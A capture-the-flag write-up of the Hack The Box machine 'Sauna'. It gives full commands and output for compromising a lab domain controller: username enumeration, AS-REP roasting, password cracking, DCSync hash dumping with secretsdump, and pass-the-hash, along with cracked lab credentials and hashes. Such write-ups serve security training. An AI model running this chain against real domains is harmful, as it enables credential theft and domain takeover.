




# Sauna



## User Flag

### Enumeration

As always, start off with an `nmap` scan of our target IP. 
```text
$ nmap -sC -sV -oN nmap_sauna 10.10.10.175

..SNIP
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-11 23:49:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain:EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-11T23:49:37
|_  start_date: N/A
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

We can see due to ldap and kerberos ports that this is a domain controller for the `EGOTISTICAL-BANK.LOCAL` domain. There is also an open webpage on port 80.

### Trying Netexec
First I tried to use `netexec` to enumerate users or shares on the domain but both failed.
```text
$ netexec smb 10.10.10.175 -u '' -p '' --shares
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\:                                     
SMB         10.10.10.175    445    SAUNA            [-] Error enumerating shares: STATUS_ACCESS_DENIED               

$ netexec smb 10.10.10.175 -u '' -p '' --users 
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\: 
SMB         10.10.10.175    445    SAUNA            [*] Trying to dump local users with SAMRPC protocol 
```

I dabbled around testing some other tools, but nothing was clicking. Then I remembered the open webpage, so let's check that out.

### Webpage
We get a home page for what appears to be a bank. Let's poke around from here.


#### Meet The Team
We find an interesting page under the "About Us" section. It appears to be a page for the bank's employees. We can use these names to generate some usernames to try and enumerate users on the domain.


### Generate Usernames
I will use the [username-anarchy](https://github.com/urbanadventurer/username-anarchy) tool to take a list of names and generate usernames from them. I copied the employee names into a text file and ran the tool against it.
```text
$ cat bank_employees.txt 
fergus smith
shaun coins
hugo bear
bowie taylor
steven kerb
sophie driver
$ username-anarchy -i bank_employees.txt > anarchied_users.txt
$ cat anarchied_users.txt 
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith     
fsmith
sfergus
..SNIP
                                                                                                                                                                                    
```

### Kerbrute User Enumeration
We can now use the `kerbrute` tool to check the usernames against the domain. We will use the `userenum` module to do this. We only get one hit, `fsmith`, but luckily this account has the `UF_DONT_REQUIRE_PREAUTH` flag set. This means we can request a ticket for this account without knowing their password.

```text
$ kerbrute userenum anarchied_users.txt -d egotistical-bank.local --dc 10.10.10.175

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/13/24 - Ronnie Flathers @ropnop

2024/01/13 13:07:53 >  Using KDC(s):
2024/01/13 13:07:53 >   10.10.10.175:88

2024/01/13 13:07:53 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$fsmith@EGOTISTICAL-BANK.LOCAL:96e506620079781ecc8d10c10b0bef11$8908fabd437d204481e91a8552cd19bb51e6f777a0fd17c2e4d4dab099f5e2a718ce6af61274f773c56ab4fdd32a965dc9880428b0b9e4c0057e159d66930fef03457a568bc8845be2550c5d2107e0cf0b9ccc7957318a082d10b02f53cdb128bbd5c300e058398edc2c220a0192cafba0490db0172ef00fb791fa824ef0680fcdaf50a822973206a9ea0c1caba22a377d8f0fdeb953d45a6c66d0092f7fa2f8e7ac9249d88c041d0b175002990c9f5af781c7e9841770715b24bd6757f328fa27d20e0d0ecec86fcd3353e322a6c256d6c758e0a4667ce56cd7462b9a7ae4de837d7e8cfc1207641dab72dff365dccb8bfda9b5dd74a958ac9d48399e1fc09383002c63cfda5ac23db7e01f21052d525a6302355c92
2024/01/13 13:07:53 >  [+] VALID USERNAME:       fsmith@egotistical-bank.local
2024/01/13 13:07:53 >  Done! Tested 88 usernames (1 valid) in 0.276 seconds
```

### Hashcat

Now that we have a session hash for the `fsmith` user, I move it over to my cracking station and run hashcat to crack it. The password comes back as `Thestrokes23`

```text
PS C:\temp\hashcat-6.2.6> .\hashcat.exe C:\temp\hash.txt C:\temp\wordlists\rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:bae6115b9a4a78d9e49715714f861d23$62c5c0b5a4d69e502078a939a0618c3b3f0ca81879c6018ddddaaa77b8093a45e7c846e1b282be21a5cb324f5325b84c28104e99a55a76aac6abdaeb9a01e05a2244f15dde53fe795878aaa0a10523168c962400addaf0701b1057bf2c600a527c79f2d0a1ef5164a4ee59afc1b9fe6db22508259fb5d055027bc07c5ce51d4620dc5334fdca8b6fe3f3f093e1d87153bb05d5842be0da9007084efa6d16d76cf        f08ca0df55b32842d6beecefec5aa7ccb27c2fb8fa877bee1da74a16d7d87fc094a8653838a1da98d3ded9ae5eb27cf35ae8dd69a7ab4b4b7d91f4bb52cb23dd73896699fc453528a24c56af319e844a02e633f0db2e8df50f9c8676a75638e4a99:Thestrokes23
```

We can verify these credentials using `netexec` again.
```text
$ netexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23' 
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23
```

### Evil-WinRM as fsmith
With valid credentials, we can try to use `evil-winrm` to get a connection to the machine.
```text
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami;hostname
egotisticalbank\fsmith
SAUNA
```

### User.txt
Now to grab the user flag.
```text
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
f7b1**************************
```

## Root Flag

### Winpeas
One of the first things I do when I get a shell is to run `winpeas` to see if there are any obvious privilege escalation paths. This instantly found autologon credentials for the `svc_loanmgr` user. 



Again let's confirm these credentials using `netexec`.

```text
$ netexec smb 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' 
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround! 
```

### Bloodhound-Python
Let's run the `bloodhound-python` tool to collect data about the domain. We will use the `all` collection method to get all the data we can. We could run this from either user that we have access to.
```text
$ bloodhound-python -u fsmith -p Thestrokes23 -d egotistical-bank.local -ns 10.10.10.175 -c all
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
WARNING: Failed to get service ticket for SAUNA.EGOTISTICAL-BANK.LOCAL, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: [Errno Connection error (SAUNA.EGOTISTICAL-BANK.LOCAL:88)] [Errno -2] Name or service not known
INFO: Done in 00M 07S
```

### Bloodhound
Once the data is imported to BloodHound, we can start to look for privilege escalation paths. We find that the `svc_loanmgr` user has `DCSync` rights to the `EGOTISTICAL-BANK.LOCAL` domain. This means we can dump a copy of the NTDS.DIT file from the domain controller. 





### DC Sync using Secretsdump
We can use Impacket's `secretsdump.py` tool to dump the NTDS.DIT file with the `svc_loanmgr` credentials. This will give us all domain user's NTLM hashes, but we are only interested in the `Administrator` account.
```text
$ secretsdump.py egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:f5b9156641142f4d285d7fc473715aa5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:97362fbb7395ed36772bf710f12d1bc2b2b4f66153826ac6dcd2c4df337bd85b
SAUNA$:aes128-cts-hmac-sha1-96:bb53312e1bc4fa8431c61ac83e5ef6d2
SAUNA$:des-cbc-md5:8fc83ec4ae329d02
[*] Cleaning up...
```

### Evil-WinRM as Administrator
With the Administrator hash, we can now use `evil-winrm` to get a shell as the Administrator user on the domain controller.
```text
$ evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami;hostname
egotisticalbank\administrator
SAUNA
```

### Root.txt
Finally, grab the root flag.
```text
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
2305***********************
```
